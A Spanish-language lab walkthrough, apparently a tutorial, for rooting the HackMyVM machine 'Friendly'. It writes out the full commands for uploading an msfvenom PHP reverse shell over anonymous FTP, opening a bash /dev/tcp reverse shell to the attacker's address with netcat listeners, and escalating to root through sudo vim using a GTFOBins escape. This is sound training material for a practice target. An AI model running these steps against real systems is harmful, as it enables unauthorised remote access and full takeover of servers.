

# Escalada de Privilegios en Linux – Sudo -l

Maquinas que vamos a utilizar **Kali Linux y Friendly** [https://hackmyvm.eu/machines/machine.php?vm=Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly)

Una vez hayamos obtenido acceso remoto al servidor, es necesario proceder con la escalada de privilegios, para poder convertirnos en el usuario root del sistema y así contar con todo tipo de permisos sobre el mismo.

```bash
sudo arp-scan -I eth0 --localnet
```



```bash
ping -c 1 10.0.3.21
```


```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.21 
```


Vemos que esta habilitado el login como Anonymous en el FTP por el puerto 21.

- Accedemos por el FTP
    
    ```bash
    ftp 10.0.3.21 
    ```
    
    
    
    Usuario anonymous  contraseña la dejamos en blanco.
    
    Salimos del FTP
    
    `exit`
    

- Creamos un archivo malicioso con msfvenom en el escritorio.
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.0.3.4 LPORT=443 -f raw > pwned.php
    ```
    
    
    

- Volvemos a entrar el el FTP como la vez anterior
    
    ```bash
    ftp 10.0.3.21 
    ```
    
    
    
    - Subimos el archivo **pwned.php.**
        
        `put pwned.php`
        
        
        
        `exit`
        
    
- Nos ponemos a la escucha con netcat por el puerto 443 que era el de muestro archivo malicioso..
    
    ```bash
    nc -nlvp 443 
    ```
    
    
    

- Como ya hemos aprendido una conexión  creada por msfvemon es muy inestable así que vamos a estabilizarla. Nos vamos a la web [https://www.revshells.com/](./imagenes/https://www.revshells.com/) y copiamos el código generado.
    
    
    

- En otra terminal nos ponemos a la escucha con netcat por el puerto 444 que es el que hemos puesto en el código que acabamos de generar.
    
    ```bash
    nc -nlvp 444 
    ```
    
    
    
- Nos vamos al navegador web y ponemos la URL http://10.0.3.21/pwned.php
    
    
    
    
    

- Escribimos lo siguiente
    
    `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1"`
    
    
    
    
    

Hasta aquí ya lo habíamos visto.

---

- **Tratamiento de la TTY**
    
    `script /dev/null -c bash`
    
    `CTRL+Z`
    
    
    

`stty raw -echo; fg`

`reset xterm`


`export TERM=xterm`

`export SHELL=bash`


---

- Vamos a ver **escaladas de privilegios básicas** vamos a utilizar **sodo -l** , este comando a veces funciona y a veces no pero si funciona anos puede dar información útil.
    
    `sudo -l`
    
    
    
    
    
    <aside>
    💡
    
    Este mensaje indica que el usuario **www-data  (en este caso soy yo, podemos comprobarlo haciendo un whoami)** puede **ejecutar el comando vim** en el sistema llamado friendly **sin necesidad de contraseña** (NOPASSWD). Además, **no hay restricciones** sobre qué comandos o privilegios puede usar (ALL : ALL). **En resumen, este usuario tiene acceso sin restricciones a ejecutar vim.**
    
    </aside>
    
    Nos puede aparecer vim como otras herramientas. Como es lógico es imposible saber de memoria como escalar en cada herramienta. por eso vamos a utilizar la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/).
    
    
    
    En el buscador de la web ponemos la herramienta que nos a parecido y con la cual queremos escalar privilegios.
    
    
    
    
    

- Nos debemos  preguntar ¿Cómo hemos enumerado que podemos utilizar vim?
    
    
    
    Lo hemos hecho con el comando **SUDO**
    

- Nos movemos hasta encontrar **Sudo** en la web **dentro de Vim**
    
    
    
    Vemos que tenemos varios opciones. Probamos la primera.
    
    `sudo /usr/bin/vim -c ':!/bin/sh'`
    
    
    
    Si funciona nos convertimos en Root
    
    